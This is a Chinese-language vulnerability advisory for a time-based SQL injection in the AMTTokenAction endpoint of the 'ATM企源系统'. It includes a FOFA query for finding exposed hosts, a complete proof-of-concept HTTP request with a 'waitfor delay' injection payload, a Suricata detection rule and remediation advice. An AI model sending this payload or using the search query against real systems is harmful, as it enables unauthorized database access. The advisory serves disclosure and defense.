

# ATM企源系统 AMTTokenAction 存在SQL注入漏洞

ATM企源系统 AMTTokenAction 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

ATM企源系统 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/vmain/login.jsp" || body="com.velcro"

POC/EXP：

```
POST /ServiceAction/com.velcro.internal.servlet.AMTTokenAction?action=phone&longonname=1dtvYdVz';%20waitfor%20delay%20'0:0:7'%20--%20 HTTP/1.1
Host: 127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: 
Accept-Encoding: gzip,deflate,br
Content-Length: 0
Cookie: JSESSIONID=aaaBAhQvyQdO75ezyRr_z
Connection: keep-alive
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"ATM企源系统 - AMTTokenAction longonname 时间盲注 (waitfor delay)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"com.velcro.internal.servlet.AMTTokenAction";
        fast_pattern;
    http.uri;
        content:"longonname=";
    http.uri;
        content:"waitfor%20delay"; nocase;
        content:"0:0:7"; nocase; distance:0;
    metadata:
        service http,
        affected_product "ATM企源系统",
        vulnerability_type "Time-based SQL Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000748;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
